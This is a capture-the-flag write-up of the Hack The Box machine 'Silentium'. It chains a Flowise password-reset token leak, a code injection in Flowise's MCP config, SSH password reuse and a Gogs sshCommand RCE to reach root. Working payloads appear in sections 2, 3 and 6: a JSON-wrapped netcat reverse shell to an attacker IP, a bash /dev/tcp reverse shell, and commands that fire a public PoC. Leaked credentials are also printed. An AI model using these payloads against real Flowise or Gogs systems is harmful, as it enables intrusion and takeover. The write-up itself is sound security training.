

# HTB — Silentium

> [!summary] TL;DR
> **Silentium** is a Linux box built around a fake "institutional finance" company. The path to root is a chain of **three separate real-world CVEs and misconfigurations**, not one single bug:
> 1. An unauthenticated **IDOR on a `forgot-password` API** leaks a valid password-reset token → account takeover of an admin user on a **Flowise** AI-workflow instance (**CVE‑2025‑58434**).
> 2. Inside Flowise, a **custom MCP server config** field is parsed unsafely, giving **unauthenticated-adjacent RCE** on the Flowise container.
> 3. Reading environment variables inside that container leaks a **reused SMTP password**, which turns out to also be the SSH password for the real host user `ben` (**password reuse**).
> 4. From `ben`, an internal-only **Gogs** git server (port 3001) is reached via SSH local port-forwarding, and root is obtained with a **Gogs SSH `sshCommand` injection RCE** (**CVE‑2025‑8110**).

---

## 1. Recon

### 1.1 Port scan
Standard two-stage nmap: a fast SYN scan to find open ports, then a version/script scan against them.

![[Pasted image.png]]

Only two ports are open on the box itself:
- `22/tcp` — OpenSSH 9.6p1 (Ubuntu)
- `80/tcp` — nginx 1.24.0, and the HTTP title tells us it redirects to a virtual host: `silentium.htb`

**Lesson:** the `Did not follow redirect to http://silentium.htb/` line in the nmap output is the first real clue — this is a name-based virtual host setup, so `/etc/hosts` needs an entry before anything else will render properly.

```bash
echo "10.129.130.53 silentium.htb" | sudo tee -a /etc/hosts
```

### 1.2 Subdomain fuzzing (vhost discovery)
With the base domain resolving, the next step is to look for other virtual hosts served by the same nginx instance — a very common HTB pattern (staging sites, admin panels, API hosts, etc. all living behind one IP).

`ffuf` is pointed at the web root while fuzzing the `Host:` header itself, rather than fuzzing a path — this is how you discover *subdomains* on a single IP:

```bash
ffuf -u http://silentium.htb/ \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt \
  -H "Host: FUZZ.silentium.htb" \
  -c -mc 200
```

![[Pasted image (2).png]]

This turns up `staging.silentium.htb` — a separate, presumably less-hardened environment. Added to `/etc/hosts` as well.

### 1.3 The main site
`silentium.htb` itself is a static marketing site for a fictional "institutional capital platform" — purely flavor text/world-building for the box, but it's useful to skim because it names real people, which matters later (social engineering / username enumeration style clues).

![[Pasted image (3).png]]

![[Pasted image (10).png]]
*The "Institutional Leadership" page names three people: Marcus Thorne (Managing Director), **Ben** (Head of Financial Systems), and Elena Rossi (Chief Risk Officer). "Ben" becomes important almost immediately.*

### 1.4 The staging site — login portal
`staging.silentium.htb` is a different beast: an actual web application with a sign-in form, hinting at a real backend/API rather than a static page.

![[Pasted image (4).png]]

---

## 2. Initial Foothold — API IDOR → Account Takeover

### 2.1 Finding the API
A `dirsearch` scan of the staging host surfaces a REST API mounted at `/api/v1/`, protected by a 401 on most endpoints — but not all of them, and some functionality (like password reset) by definition *has* to be reachable by unauthenticated users.

![[Pasted image (6).png]]

A second, more targeted `dirsearch` pass directly against `/api/v1/` enumerates the available routes: `auth/login`, `attachments`, `feedback`, `settings`, `version`, etc.

![[Pasted image (7).png]]

![[Pasted image (8).png]]
*Querying `/api/v1/version` (no auth required) returns `{"version":"3.0.5"}` — a specific, fingerprintable version number. This is the single most important recon artifact on the box.*

### 2.2 Identifying the software — Flowise
Version `3.0.5` of a Node-based API with an `/api/v1/` prefix, `auth/login`, and `settings` routes is a strong fingerprint. A quick search for known CVEs against that version number identifies the backend as **[Flowise](https://github.com/FlowiseAI/Flowise)** — an open-source low-code builder for LLM/AI agent workflows — and turns up a critical, very recent CVE:

![[Pasted image (9).png]]

> [!danger] CVE-2025-58434 — Flowise Unauthenticated Password Reset Token Disclosure
> **CVSS 3.1: 9.8 (Critical)**
> The `/api/v1/account/forgot-password` endpoint takes an email address and, instead of *only* emailing a reset link, the API response **echoes back the full user object** — including the hashed credential, account status, and critically, a valid, **already-generated `tempToken`** that can be immediately replayed against `/api/v1/account/reset-password` to set a brand-new password. No email access, no secondary verification — just knowledge of a valid email address.

### 2.3 Exploiting it
Using the email `ben@silentium.htb` (guessed from the "Leadership" page — his staff title made him a plausible admin-adjacent account), a raw POST to the vulnerable endpoint:

```bash
curl -X POST http://staging.silentium.htb/api/v1/account/forgot-password \
  -H "Content-Type: application/json" \
  -d '{"user": {"email": "ben@silentium.htb"}}'
```

![[Pasted image (5).png]]

The response is a goldmine: full user object (`id`, `name: admin`, `email`, bcrypt `credential` hash, and — the actual prize — a **`tempToken`** with its expiry).

### 2.4 Resetting the password
That `tempToken` is simply pasted into the site's own "Reset Password" form (or sent directly to `/api/v1/account/reset-password`) along with a new password of the attacker's choosing:

![[Pasted image (11).png]]

This is a full **unauthenticated account takeover** — zero credentials needed, only a known/guessable email address.

### 2.5 Logging in as admin
With the password now reset, logging in with `ben@silentium.htb` drops straight into the **Flowise** application dashboard:

![[Pasted image (12).png]]

From the application's own **API Keys** page, a valid Flowise API key is retrieved — needed for the next stage, since several internal API routes require it:

![[Pasted image (13).png]]

> [!tip] Why this matters beyond the box
> This is a textbook example of **BOLA/IDOR (Broken Object Level Authorization)** combined with **excessive data exposure** (OWASP API Security Top 10, API1 and API3). The lesson: a "forgot password" endpoint must *never* return anything more than a generic "if this email exists, we sent a reset link" message — returning the reset token itself turns a convenience feature into a full authentication bypass.

---

## 3. Flowise → RCE in the Container

Flowise lets admins define **custom MCP (Model Context Protocol) server configs** — essentially arbitrary tool integrations for AI agents. The `node-load-method` endpoint that lists available "actions" for a custom MCP config parses that config in a way that allows **JavaScript code execution**, because the `mcpServerConfig` value is evaluated rather than safely parsed as static JSON/config.

### 3.1 Building the payload
The exploit payload disguises a Node.js `child_process` reverse shell inside what looks like an MCP server config object:

```json
{
  "loadMethod": "listActions",
  "inputs": {
    "mcpServerConfig": "({x:(function(){const cp=process.mainModule.require('child_process');cp.exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.157 4444 >/tmp/f');return 1;})()} )"
  }
}
```

This is sent, authenticated with the stolen Flowise API key, to the internal node-method endpoint:

```bash
curl -X POST http://staging.silentium.htb/api/v1/node-load-method/customMCP \
  -H "Authorization: hWp_8jB76zi0VtKSr2d9TfGK1fm6NuNPg1uA-8FsUJc" \
  -H "Content-Type: application/json" \
  -d @payload.json
```

![[Pasted image (14).png]]

### 3.2 Catching the shell
With a `nc` listener running, triggering the request pops a reverse shell on the Flowise container — and it comes back as **root inside the container**:

![[Pasted image (15).png]]

```
/ # id
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

> [!note] Root in a container ≠ root on the box
> This looks exciting but it's almost certainly a **container** (the UID 0 / minimal busybox-style group list and port `3000` binding are strong tells). Container root is a stepping stone, not the finish line — the real prize is whatever secrets live in that container's environment.

---

## 4. Pivoting — Secrets in Environment Variables

A simple `env` dump inside the compromised container is unglamorous but devastating:

![[Pasted image (16).png]]

Key values recovered:

| Variable | Value | Significance |
|---|---|---|
| `FLOWISE_USERNAME` | `ben` | Confirms the admin account identity |
| `FLOWISE_PASSWORD` | `F1l3_d0ck3r` | Flowise's own local credential |
| `SMTP_USERNAME` | `test` | — |
| `SMTP_PASSWORD` | `r04D!!_R4ge` | **The critical find** |
| `SENDER_EMAIL` | `ben@silentium.htb` | Ties the mailer back to Ben |
| `JWT_AUTH_TOKEN_SECRET` / `JWT_REFRESH_TOKEN_SECRET` | static dummy values | Not directly useful here, but would allow JWT forging in a different scenario |

### 4.1 Password reuse → SSH foothold
The real host almost certainly has a Unix user `ben`. Out of habit, many sysadmins reuse the same password across services. Trying the leaked `SMTP_PASSWORD` against SSH on the box itself:

```bash
ssh ben@silentium.htb
```

![[Pasted image (17).png]]

It works. **Password reuse across an application secret and a system account is the pivot that gets us an actual, non-containerized shell on the host**, as `ben` (uid=1000).

> [!warning] Root cause here
> This step exists purely because of **credential/secret reuse** — one of the most common real-world privilege-escalation vectors, and completely independent of any software CVE. Secrets used by application services (SMTP relay creds, API keys, DB passwords) should never double as human login credentials.

---

## 5. Internal Service Discovery — Gogs

### 5.1 Finding what's listening locally
Once on the box as `ben`, checking local listening sockets reveals services that are **only bound to `127.0.0.1`** and therefore invisible from the outside — the hallmark of an internal-only service:

![[Pasted image (19).png]]

Notable local-only ports:
- `127.0.0.1:3000` — Flowise itself
- `127.0.0.1:3001` — an unknown service (turns out to be **Gogs**, a lightweight self-hosted Git service)
- `127.0.0.1:8025` / `127.0.0.1:1025` — MailHog (mail testing tool, matches the SMTP env vars from earlier)

### 5.2 Reaching it with SSH local port forwarding
Since `ben` has valid SSH credentials, the simplest way to interact with a `127.0.0.1`-only internal port is to **tunnel it out** with local port forwarding (`-L`):

```bash
ssh -f -N -L 3001:127.0.0.1:3001 ben@10.129.134.226
```

![[Pasted image (20).png]]

This makes `http://127.0.0.1:3001` on the *attacker's own machine* transparently proxy to port 3001 on the target — no extra tooling needed, just native OpenSSH.

### 5.3 Gogs — registering and exploring
Browsing to the forwarded port shows a Gogs instance (Russian-localized UI in this build) with self-registration enabled:

![[Pasted image (18).png]]

After registering a throwaway account (`lol`) and logging in:

![[Pasted image (21).png]]

A **personal access token** is generated from account settings — this will be needed to drive the Gogs API programmatically for the exploit:

![[Pasted image (22).png]]

---

## 6. Root — Gogs Internal SSH Server RCE (CVE-2025-8110)

Fingerprinting the exposed Gogs version (not separately pictured, but implied by the exploit choice) points to a very recent, critical vulnerability:

> [!danger] CVE-2025-8110 — Gogs Internal SSH Server RCE
> Gogs ships its own **built-in SSH server** for handling `git push`/`git pull` over SSH, independent of the system's OpenSSH. A victim repository can be crafted so that its **Git `sshCommand` config value** gets injected with an attacker-controlled shell command, and a **malicious symlink** trick in the repo gets that config read and executed by the Gogs SSH daemon — resulting in remote code execution as whatever OS user Gogs runs as (commonly root, if misconfigured, which is the case here).

A public PoC for this exact CVE already exists on GitHub:

![[Pasted image (23).png]]

### 6.1 Getting the exploit
```bash
git clone https://github.com/zAbuQasem/gogs-CVE-2025-8110.git
cd gogs-CVE-2025-8110
python3 CVE-2025-8110.py --help
```

![[Pasted image (24).png]]

### 6.2 What the exploit actually does
Reading through `CVE-2025-8110.py` shows the attack chain it automates:
1. Register/login a Gogs account and grab an application (API) token.
2. Create a new repository via the Gogs API.
3. Push a crafted `.git/config` into that repo containing a malicious `sshCommand` under `[core]`, pointed at a reverse-shell one-liner (`bash -c 'bash -i >& /dev/tcp/{host}/{port} 0>&1'`).
4. Upload a malicious **symlink** object into the repo (this is the actual trigger — Gogs' internal SSH handling follows/executes the symlinked hook/config in a way it shouldn't).

![[Pasted image (26).png]]

![[Pasted image (27).png]]
*The core of the script: registering a throwaway user, grabbing a token, writing a Git `core.sshCommand` entry that wraps a bash reverse shell, then pushing a malicious symlink to trigger it.*

### 6.3 Firing the exploit
With a listener ready and the local port-forward from step 5 still active:

```bash
python3 CVE-2025-8110.py -u http://127.0.0.1:3001 -lh 10.10.15.157 -lp 4445
```

![[Pasted image (28).png]]

The script authenticates, grabs an application token, creates the malicious repo, pushes the crafted symlink/config, and sends the payload (the "Read timed out" at the end is expected — it's just the HTTP client waiting on a response from the request that's actually what triggers the hook on the server side).

### 6.4 Root shell
```bash
nc -lvnp 4445
```

![[Pasted image (29).png]]

```
root@silentium:/opt/gogs/gogs/data/tmp/local-repo/1# id
uid=0(root) gid=0(root) groups=0(root)
root@silentium:/opt/gogs/gogs/data/tmp/local-repo/1# cat /root/root.txt
cd45ac43124d61ba92ed06f5330b
```

**Root, confirmed by `root.txt`.** Gogs on this box was running as the root user directly on the host (not containerized), so this RCE is a full, direct host compromise — not another container to pivot out of.

---

## 7. Box Solved

![[Pasted image (25).png]]

---

## 8. Full Attack Chain Summary



---

## 9. Key Takeaways / Lessons

- [ ] **Never echo sensitive tokens in API responses.** The `forgot-password` → `tempToken` leak (CVE-2025-58434) is the entire initial foothold. A compliant implementation returns only a generic "check your email" message regardless of whether the account exists.
- [ ] **Sandbox or strictly schema-validate any user-supplied "config" that gets parsed/evaluated**, especially in low-code/AI-agent platforms like Flowise where "config" fields are an attractive target for code-injection, since they're expected to be flexible/dynamic by design.
- [ ] **Never reuse secrets across roles.** The same password served as both an SMTP relay credential *and* a human SSH login password — one leak became two forms of access.
- [ ] **Services bound to `127.0.0.1` are not actually safe** if any account on the box can SSH in — local port forwarding trivially exposes them. "Internal-only" binding is not a substitute for proper authentication/network segmentation.
- [ ] **Don't run auxiliary services (like a git server) as root.** Gogs being allowed to run as root turned an application-level RCE (CVE-2025-8110) directly into full host compromise, with no further privilege escalation needed at all.
- [ ] **Patch fast on critical/recent CVEs.** Both CVE-2025-58434 (Flowise) and CVE-2025-8110 (Gogs) are from 2025 — this box is a good reminder that "new" software, including trendy AI-tooling platforms, still needs the same patching discipline as anything else.

---

## 10. Tools Used
- `nmap` — port/service scanning
- `ffuf` — virtual host (subdomain) fuzzing via Host-header
- `dirsearch` — content/endpoint discovery
- `curl` — raw API interaction (forgot-password exploit, Flowise RCE payload)
- Flowise web UI — admin access, API key retrieval
- `nc` (netcat) — reverse shell catcher
- `ssh` (incl. `-L` local port forwarding) — foothold + internal pivot
- `git` / Gogs API — exploit delivery for CVE-2025-8110
- Public PoC: [`zAbuQasem/gogs-CVE-2025-8110`](https://github.com/zAbuQasem/gogs-CVE-2025-8110)

---

## 11. References
- GitHub Advisory: [CVE-2025-58434 — Flowise forgot-password token disclosure](https://github.com/advisories) *(GHSA-wgpv-6j63-x5ph)*
- [FlowiseAI/Flowise](https://github.com/FlowiseAI/Flowise) — official repo
- [Gogs](https://gogs.io/) — official project
- PoC used: [github.com/zAbuQasem/gogs-CVE-2025-8110](https://github.com/zAbuQasem/gogs-CVE-2025-8110)
